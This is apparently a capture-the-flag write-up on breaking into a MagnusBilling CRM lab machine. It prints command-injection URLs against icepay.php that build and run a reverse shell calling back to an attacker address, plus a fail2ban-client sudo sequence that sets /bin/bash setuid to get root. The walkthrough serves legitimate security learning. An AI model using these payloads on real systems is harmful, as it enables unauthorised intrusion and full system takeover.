BILLING_BOX
Hello folks, what’s up? Are you guys ready for one more write-up? This is the second one I’m posting here, so let’s get started!
RECONNAISSANCE
For this CTF challenge, as soon as I opened the page, I was greeted with something that, at first glance, looked like a CMS or something similar. Mostly because of the name and the overall style of the site. Turns out I wasn’t that wrong after all.
I decided to check which technologies were running on the site using wappalyzer. Apache was there and the version looked fine, but one thing really caught my attention: ExtJS. This was a huge clue about what might be running behind the scenes. I also tried logging in using some default credentials:

I also tried default credentials:
username: root password: magnus
No success.
SCANNING
Next, I started digging through the source code, looking for directories and any other useful clues. I also ran gobuster to enumerate directories, and I found the following results:
With this information in hand, I let my curiosity take over and did a quick Google search to answer my main question: this a CMS, or a proprietary application?

My intuition was right. It wasn’t exactly a CMS — it was a CRM. I searched to see if there were any known exploits for it.
And… gotcha! There were exploits available. At this point, all I needed to know was whether the exploit matched the version running on the server, or if I was going down the wrong path. After some research, I found more information about which versions were vulnerable. Then I noticed something interesting: the versions matched the technologies that Wappalyzer had already shown me earlier. For example, ExtJS 6.2.0.961 matched perfectly with Broadcom's explanation of the CVE.
EXPLOITATION
Before blindly running an exploit, I wanted to understand how the vulnerability actually worked. My goal was to deal with it properly and maybe even exploit it manually — or at least understand how it could be abused using something simple like curl. From what I understood, the vulnerability exists in a library that allows an attacker to write arbitrary files on the system. So I tried testing it myself with requests like these:
http://magnusbilling/lib/icepay.php?democ=testfile; echo "#!/bin/bash" > /tmp/a.sh http://magnusbilling/lib/icepay.php?democ=testfile; echo "sh -i /dev/tcp/192.168.184.X/1337 0>&1" >> /tmp/a.sh http://magnusbilling/lib/icepay.php?democ=testfile; chmod 755 /tmp/a.sh http://magnusbilling/lib/icepay.php?democ=testfile; sh /tmp/a.sh ExploitDB's reference for the CVE.
Didn’t work :/
At that point, I decided to stop fighting it and just install Metasploit to do the dirty work for me. Metasploit worked, but the shell was awful. So I got a proper reverse shell.
 User flag found at /home/magnus.
POST-EXPLOITATION
After getting the reverse connection, I upgraded my shell using the classic method:
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
fg
export TERM=xterm

PRIVILEGE ESCALATION
I started with the basics: Bash history of the magnus user System version using uname -a Linux capabilities Sudo permissions And jackpot — my user could execute a binary as root, without a password. That’s basically everything you want in a CTF. Still, I saved this information for later and continued looking for other privilege escalation paths, just in case. I checked for horizontal privilege escalation, cron jobs, and interesting processes, but found nothing useful. The only thing that stood out was a Python process running as root. Then I decided to investigate Fail2Ban. I looked for ways to abuse it and found a blog post on juggernaut-sec.com describing a Fail2Ban privilege escalation technique.
In their case, they had write permissions to:
/etc/fail2ban/action.d/iptables-multiport.conf
But my situation was different. I could only execute commands using fail2ban-client (with very limited permissions to write. Only read and execute some important configuration files). Even so, reading that post was crucial to understanding how Fail2Ban actually works. Later, I found a PoC on exploit-notes.hdks.org, and this one matched my situation perfectly — same binary, very similar context. I used the following technique from their page:
# Get jail list sudo /usr/bin/fail2ban-client status # Choose one jail from the list sudo /usr/bin/fail2ban-client getactions # Create a new action sudo /usr/bin/fail2ban-client set addaction evil # Set a malicious action sudo /usr/bin/fail2ban-client set action evil actionban "chmod +s /bin/bash" # Trigger the action sudo /usr/bin/fail2ban-client set banip 1.2.3.5 # Get root /bin/bash -p
What’s happening here is simple but powerful: Fail2Ban can execute commands (called actions) when certain events occur. Since I could run fail2ban-client as root, every change I made was applied with root privileges. By abusing this behavior, I managed to escalate privileges and pop a root shell. It worked. Pw0ned successfully.
 